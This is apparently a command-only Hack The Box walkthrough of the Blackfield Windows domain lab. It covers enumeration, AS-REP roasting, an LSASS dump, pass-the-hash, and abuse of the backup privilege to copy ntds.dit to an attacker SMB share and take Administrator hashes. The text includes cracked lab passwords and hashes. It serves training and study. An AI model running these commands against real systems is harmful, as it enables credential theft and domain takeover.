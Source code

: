 ```
nmap -sS -sC -sV -T5 -Pn 10.10.10.192
nmap -sU -T5 10.10.10.192
```
![image](https://github.com/regarmulia/HTB/assets/33616880/fbd9d1ba-1de4-40ac-9315-7e4696e0411e)

![image](https://github.com/regarmulia/HTB/assets/33616880/61dfed10-6cd7-4e56-86b3-6de25c80beca)

```
smbclient -L \\\\10.10.10.192\\
smbclient \\\\10.10.10.192\\profiles$

RECURSE ON
PROMPT OFF
mget *
```
![image](https://github.com/regarmulia/HTB/assets/33616880/6270846a-059e-44b7-8ea9-b85e2b4580fe)

```
ls -la | awk -F' ' '{print $9}' > users2.txt
```
![image](https://github.com/regarmulia/HTB/assets/33616880/8356828b-c804-409c-9614-eb7a07575f9c)

```
./kerbrute_linux_amd64 userenum --dc 10.10.10.192 -d BLACKFIELD.local /home/itsec/Documents/HTB-Blackfield/users2.txt
audit2020@BLACKFIELD.local
svc_backup@BLACKFIELD.local
support@BLACKFIELD.local
```
![image](https://github.com/regarmulia/HTB/assets/33616880/8351ac91-ddd0-4beb-b7a5-07b826d5ea17)

```
crackmapexec smb 10.10.10.192 -u users1.txt -p /usr/share/wordlists/rockyou.txt
smbclient -L \\\\10.10.10.192\\ -U BLACKFIELD.local/audit2020@BLACKFIELD.local
```
![image](https://github.com/regarmulia/HTB/assets/33616880/85ac138e-3b1c-425d-a7e0-02a1459f064c)

![image](https://github.com/regarmulia/HTB/assets/33616880/8e443d07-17a2-4bb0-9581-bce86b966fce)

```
./GetNPUsers.py blackfield.local/ -no-pass -usersfile users1.txt -dc-ip 10.10.10.192
john hash1 -w=/usr/share/wordlists/rockyou.txt
#00^BlackKnight
```
![image](https://github.com/regarmulia/HTB/assets/33616880/cd8865bb-864f-46ec-a29a-696611744770)

```
neo4j console
bloodhound
git clone https://github.com/dirkjanm/BloodHound.py.git
python3 bloodhound.py -d BLACKFIELD.local -u support -p '#00^BlackKnight' -ns 10.10.10.192 -c All
```
![image](https://github.com/regarmulia/HTB/assets/33616880/5f5252e0-d56f-416b-aaf0-8199b768611d)

![image](https://github.com/regarmulia/HTB/assets/33616880/690ab874-b2ed-44ad-bcb1-7c905f601270)

![image](https://github.com/regarmulia/HTB/assets/33616880/32338d7d-8555-4e26-a012-c3c73abde14f)

```
Raw Query: MATCH p=(u {owned: true})-[r1]->(n) WHERE r1.isacl=true RETURN p
```
![image](https://github.com/regarmulia/HTB/assets/33616880/ce0c48d4-04cd-4b3e-a357-3cc24d23fd19)

```
rpcclient -U blackfield/support 10.10.10.192
setuserinfo audit2020 23 H@CKTHEB0X#
```
![image](https://github.com/regarmulia/HTB/assets/33616880/3fcc9b61-e949-403c-b3d0-0f1ba9be236a)

```
crackmapexec smb 10.10.10.192 -u audit2020 -p H@CKTHEB0X# --shares
```
![image](https://github.com/regarmulia/HTB/assets/33616880/c73a397a-31c3-4313-aa78-b82fe0c9cb65)

```
smbclient \\\\10.10.10.192\\forensic -U BLACKFIELD.local/audit2020
mget *
```
![image](https://github.com/regarmulia/HTB/assets/33616880/9cdfea40-0d79-4ece-a450-5ed8604b2335)

![image](https://github.com/regarmulia/HTB/assets/33616880/8c7006c9-71e4-4385-b060-5935ca36c2b1)

![image](https://github.com/regarmulia/HTB/assets/33616880/00b5ff21-a352-44d2-bb4d-edd7d42e6538)

```
pypykatz lsa minidump lsass.DMP
```
![image](https://github.com/regarmulia/HTB/assets/33616880/ac6320b3-ffcf-45b9-978f-fff33a0cb42c)

```
pypykatz lsa minidump lsass.DMP | grep 'NT:' | awk '{ print $2 }' | sort -u > hashes2
pypykatz lsa minidump lsass.DMP | grep 'Username:' | awk '{ print $2 }' | sort -u > users2
```
![image](https://github.com/regarmulia/HTB/assets/33616880/67de1db3-ce5b-473e-bc56-0830ba2c0aa3)

![image](https://github.com/regarmulia/HTB/assets/33616880/5d9c4b09-a763-4a23-9699-47c2fdee4885)

```
crackmapexec smb 10.10.10.192 -u users2 -H hashes2
evil-winrm -i 10.10.10.192 -u svc_backup -H 9658d1d1dcd9250115e2205d9f48400d
```
![image](https://github.com/regarmulia/HTB/assets/33616880/2f3fa841-a28a-4cec-a91c-646e37b6e8eb)

![image](https://github.com/regarmulia/HTB/assets/33616880/40295828-c67e-423a-9faa-709ea9d8f29e)

```
whoami /priv
```
![image](https://github.com/regarmulia/HTB/assets/33616880/99ce04fc-b535-454b-9415-909b01ac2c76)

```
robocopy /b C:\Users\Administrator\Desktop\ C:\
```
![image](https://github.com/regarmulia/HTB/assets/33616880/d74df300-d472-4da8-b81b-ad4f1f632746)

![image](https://github.com/regarmulia/HTB/assets/33616880/d8f521b9-4937-403d-b9e2-d10cb0bfdf00)

```
git clone https://github.com/giuliano108/SeBackupPrivilege.git
cd C:\programdata
upload SeBackupPrivilege/SeBackupPrivilegeCmdLets/bin/Debug/SeBackupPrivilegeCmdLets.dll
upload SeBackupPrivilege/SeBackupPrivilegeCmdLets/bin/Debug/SeBackupPrivilegeUtils.dll
```
![image](https://github.com/regarmulia/HTB/assets/33616880/8918071a-bc69-46c9-a0e8-ddce40280dff)

![image](https://github.com/regarmulia/HTB/assets/33616880/c311daad-df7a-4bcc-b229-70f7a2c76260)

```
import-module .\SeBackupPrivilegeCmdLets.dll
import-module .\SeBackupPrivilegeUtils.dll
cd C:\windows\system32\config
type netlogon.dns
Copy-FileSeBackupPrivilege netlogon.dns \programdata\netlogon.dns
type \programdata\netlogon.dns
```
![image](https://github.com/regarmulia/HTB/assets/33616880/1c0b388c-25d4-4184-bb14-3c61515f856f)

![image](https://github.com/regarmulia/HTB/assets/33616880/2ee6d268-90fc-47d1-94bd-dc4f77972e9b)

```
Copy-FileSeBackupPrivilege \users\administrator\desktop\root.txt 0xdf.txt
Copy-FileSeBackupPrivilege C:\Windows\ntds\ntds.dit .
```
![image](https://github.com/regarmulia/HTB/assets/33616880/fecb8fe9-4740-46b8-a14b-d3479761ef23)

```
https://pentestlab.blog/tag/diskshadow/
upload vss.dsh c:\programdata\vss.dsh
diskshadow /s c:\programdata\vss.dsh
unix2dos vss.dsh
```
![image](https://github.com/regarmulia/HTB/assets/33616880/6d7f6af1-934b-4279-b5eb-e8c788d625b4)

![image](https://github.com/regarmulia/HTB/assets/33616880/95425630-c31e-492a-9b94-1ddcd202f19d)

```
Vss.dsh
```
![image](https://github.com/regarmulia/HTB/assets/33616880/d2c6e1b2-b0fb-4966-b838-a601662324bb)

```
./smbserver.py s . -smb2support -username df -password df
net use \\10.10.14.13\s /u:df df
Copy-FileSeBackupPrivilege z:\Windows\ntds\ntds.dit \\10.10.14.13\s\ntds.dit
```
![image](https://github.com/regarmulia/HTB/assets/33616880/ace2cfb7-7a8e-45dd-a6f7-0d9962f32d5b)

![image](https://github.com/regarmulia/HTB/assets/33616880/b5095fad-0969-4aea-8fc9-5f61ff515ed2)

![image](https://github.com/regarmulia/HTB/assets/33616880/03292ed3-ef4c-40d9-824d-d0ad1fea814c)

```
./secretsdump.py -system SYSTEM -ntds ntds.dit LOCAL
Administrator:500:aad3b435b51404eeaad3b435b51404ee:184fb5e5178480be64824d4cd53b99ee:::
```
![image](https://github.com/regarmulia/HTB/assets/33616880/401b1100-989a-4eb6-861c-617b767fe70e)

```
evil-winrm -i 10.10.10.192 -u administrator -H 184fb5e5178480be64824d4cd53b99ee
```
![image](https://github.com/regarmulia/HTB/assets/33616880/ba294f55-c00a-4a3a-8c26-2111bc1c8a5e)
